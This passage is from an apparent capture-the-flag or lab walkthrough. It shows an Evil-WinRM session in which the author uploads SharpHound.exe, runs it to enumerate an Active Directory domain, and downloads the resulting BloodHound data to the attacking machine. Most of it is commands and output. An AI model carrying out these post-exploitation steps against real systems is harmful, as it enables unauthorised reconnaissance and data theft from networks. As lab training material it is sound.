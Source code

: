 Now, we are able to gain a PowerShell session using `evil-winrm`.  
Here, we will upload `SharpHound.exe` and run it to get a complete picture of the network.

```bash
*Evil-WinRM* PS C:\Users\olivia\Documents> ls
*Evil-WinRM* PS C:\Users\olivia\Documents> upload /home/kali/SharpHound.exe
                                        
Info: Uploading /home/kali/SharpHound.exe to C:\Users\olivia\Documents\SharpHound.exe
                                        
Error: Upload failed. Check filenames or paths: No such file or directory - No such file or directory /home/kali/SharpHound.exe                                                                                 
*Evil-WinRM* PS C:\Users\olivia\Documents> ls
*Evil-WinRM* PS C:\Users\olivia\Documents> upload /home/kali/Downloads/SharpHound.exe
                                        
Info: Uploading /home/kali/Downloads/SharpHound.exe to C:\Users\olivia\Documents\SharpHound.exe
                                        
Data: 1395368 bytes of 1395368 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\olivia\Documents> ls


    Directory: C:\Users\olivia\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          2/9/2025   3:21 PM        1046528 SharpHound.exe


*Evil-WinRM* PS C:\Users\olivia\Documents> . .\SharpHound.exe
2025-02-09T15:21:33.7577069-08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2025-02-09T15:21:33.8827498-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, 
.
.
.
.
.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-02-09T15:22:18.6170723-08:00|INFORMATION|SharpHound Enumeration Completed at 3:22 PM on 2/9/2025! Happy Graphing!
*Evil-WinRM* PS C:\Users\olivia\Documents> ls


    Directory: C:\Users\olivia\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          2/9/2025   3:22 PM          11853 20250209152218_BloodHound.zip
-a----          2/9/2025   3:22 PM           8824 NDI3ZmMyMGItNzc4Ny00MzE1LTllNDItYTM4YTEzYjcyZDFj.bin
-a----          2/9/2025   3:21 PM        1046528 SharpHound.exe


*Evil-WinRM* PS C:\Users\olivia\Documents> download 20250209152218_BloodHound.zip
                                        
Info: Downloading C:\Users\olivia\Documents\20250209152218_BloodHound.zip to 20250209152218_BloodHound.zip                                                                                                                                        
Info: Download successful!
```